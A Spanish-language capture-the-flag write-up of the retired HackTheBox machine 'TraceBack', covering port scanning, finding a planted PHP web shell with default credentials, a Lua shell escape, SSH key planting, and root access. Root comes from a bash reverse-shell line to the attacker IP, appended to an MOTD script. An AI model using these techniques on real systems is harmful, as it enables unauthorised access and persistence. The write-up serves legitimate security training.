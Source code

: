 ```yaml
---
title: TraceBack
published: 2024-06-25
description: 'Writeup de la maquina TraceBack de HackTheBox'
image: ''
tags: [nmap,OSINT,SSH,Cron Jobs]
category: 'HackTheBox'
draft: false 
---
```

# Descripción 
- **Nivel:** Fácil. 
- **Temas a tratar:** Enumeración, OSINT, Cron Jobs, SSH.
- **OS:** Linux. 
- **Plataforma:** [HackTheBox](https://app.hackthebox.com/machines/233)
- **Fecha de retiro:** 15/08/2020
- **IP victima:** 10.10.10.181
- **IP atacante:** 10.10.14.3 o 10.10.14.10

---

## Enumeración
Empezamos enumerando todos los puertos bajo protocolo TCP de la máquina.
``` bash
sudo nmap -p- 10.10.10.181 -sS -T5 --min-rate 5000 -Pn -n
Not shown: 56683 closed tcp ports (reset), 8850 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
En primera instancia encontramos 2 puertos `22 y 80`.
``` bash
nmap -p22,80 -sVC -oN scan 10.10.10.181
Nmap scan report for 10.10.10.181
Host is up (0.089s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Puerto 80
Existe un sitio web, con un texto algo peculiar.
![Puerto 80](Port80.png)
La traducción directa seria "Este sitio a sido comprometido. E dejado un backdoor para toda la internet" 
Analizando su código fuente nos topamos con lo siguiente:
![Codigo fuente sitio](webSource.png)
El texto `<!--Some of the best web shells that you might need ;)-->` no me suena, así que procedamos a buscarlo en Google para ver qué encontramos.
![Osint Google](osint.png)
En este repositorio podemos encontrar una lista de webshells para PHP, ASP y JSP, viendo el sitio con Wappalyzer nos encontramos que el sitio corre bajo php.
![wappalizer](wappalizer-web.png)
Así que procedemos a utilizar los nombres de las web-shells de PHP para ver si alguno funciona.
Podríamos utilizar una herramienta de enumeración como FFuF, GoBuster o Feroxbuster, que es lo recomendado, pero al ser muy pocos nombres en la lista, mejor probemos de uno en uno.
Shell aceptada `smevk.php`
![smevk shell](smevkshell.png)
## Reverse Shell
Con las credenciales por defecto `admin:admin` tenemos acceso.
![Web shell access](webshell.png)
Desde aquí podemos tenemos 2 diferentes opciones para obtener una shell: por medio de un comando o por medio de un archivo (en mi caso opte por el archivo el famoso monkeypentester; aunque seria mejor ejecutar el comando desde esta interfaz).
## Pivoting de Usuarios Webadmin a Sysadmin
Buscando la "user flag" encontramos que esta no existe en el directorio "Home" del usuario Webadmin, lo que significa que existe otro usuario.
![Users](users.png)
En el directorio */home/webadmin* encontramos un archivo llamado "note.txt":
```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```
Una herramienta para practicar **lua**, así que toca buscarla. 
![Luvite execute as sysadmin](luvitexecution.png)
:::tip
Como esto es una escalada de privilegios realizamos una búsqueda pensando en esto para poder encontrar la herramienta que nos menciona el usuario sysadmin.
:::
Podemos ejecutar una herramienta llamada luvit como el usuario "sysadmin" (justo lo que buscamos).
:::important
La herramienta luvit CLI puede ser utilizada como una plataforma de scripting al igual que node. Se puede utilizar para ejecutar scripts lua como servidores independientes, clientes u otras herramientas.
:::
Como podemos ver, es una herramienta que puede ser utilizada para ejecutar scripts. Al igual que Node.js, debemos poder invocar una shell interactiva desde lua.
```lua
os.execute('/bin/bash')
```
![Lua interactive shell](luashell.png)
:::note
También podemos ejecutar el comando desde un archivo .lua
:::
## Escalada de privilegios
La escalada de privilegios en sistemas GNU/Linux consiste en enumerar y buscar algún archivo que podamos editar y ejecutar por un permiso mal administrado. En este caso, no encontramos nada interesante al principio, así que optamos por buscar alguna tarea que se esté ejecutando cada cierto tiempo. Para esto, podemos emplear un script en bash o, en este caso, PsPy.
![Pspy](pspy.png)
:::note
Enviar archivos es un arte. Existen múltiples maneras para realizar esto. En este caso, optamos por la más común, que es por medio de un servidor http.
:::
### Descubrimiento del proceso
![Pspy found](pspywhatch20240624230301.png)
En este caso, podemos ver que hay un proceso que se ejecuta cada cierto tiempo, que copia los archivos de la carpeta /var/backups/.update-motd.d hacia la carpeta /etc/update-motd.d.
:::important
Cuando nos enfrentamos a maquinas así, hay que saber para que sirve cada carpeta, en este caso no me suena la carpeta así que optamos por investigar cual es su función y encontrar si existe una manera documentada para escalar privilegios.
:::
Investigando sobre estas carpetas me encuentro lo siguiente en este sitio [Exploit Notes](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/update-motd-privilege-escalation/):
```
/etc/update-motd.d/ is used to generate the dynamic message of the day (MOTD) that is displayed to users when they log in to the system. If we can modify files listed in the directory, we can inject malicious script to escalate privileges.
```
Dentro del mismo sitio nos indica la forma para escalar privilegios, otorgándonos un comando. Algo que remarca esta máquina es que tenemos que logearnos por medio de SSH para que se ejecute el comando. Pienso que cuando ocurre un login por SSH, el archivo 00-header se ejecuta como el usuario root.
Antes que nada, verificamos si este medio es el correcto visualizando si tenemos permisos de edición hacia estos archivos:
![00 header](00header20240624235937.png)
### Acceso vía SSH
Para realizar esto, tenemos que tener nuestro archivo `id_rsa.pub` de nuestra maquina atacante y copiarlo dentro de la maquina victima en el archivo`~/.ssh/autorized_keys` lo que nos otorga el acceso por via ssh sin necesidad de conocer la contraseña del usuario.
:::important
En el caso de no tener un id_rsa generado, podemos crear uno nuevo con el comando `ssh-keygen -t rsa`. Este archivo se encuentra dentro de nuestra maquina atacante en `~/.ssh/id_rsa.pub`
:::
![SSH](ssh20240624233256.png)
Login por medio de SSH por medio del comando `ssh -i id_rsa <Usuario Maquina Victima>@<IP Maquina Victima>`
![SSH2](conectssh20240624233512.png)
### Root vía Login SSH
Ya que podemos realizar login por SSH, toca modificar el archivo `00-header` para que se ejecute un script en bash para asi obtener la reverse shell al momento de logearnos por SSH.
```bash
echo "/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.9/443 0>&1'" >> 00-header
```
![Revshell](sendrevshell20240625001118.png)
:::note
Este proceso tal vez tengamos que repetirlo varias veces ya que la "cron job" se ejecuta cada 30 segundos aproximadamente asi que nos puede borrar lo que escribimos dentro del archivo.
:::
Colocándonos en escucha por el puerto 445, y conectándonos por SSH, la maquina nos regresa una reverse shell:
![Root](root20240625001406.png)
:::important
Esta no es la unica manera para obtener root de la maquina, tambien podemos darnos permisos `suid` al usuario sysadmin, copiar la id_rsa dentro del archivo `/root/.ssh/authorized_keys`, entre otros métodos. Este es solo uno de ellos
:::

---
### Happy Hacking!!
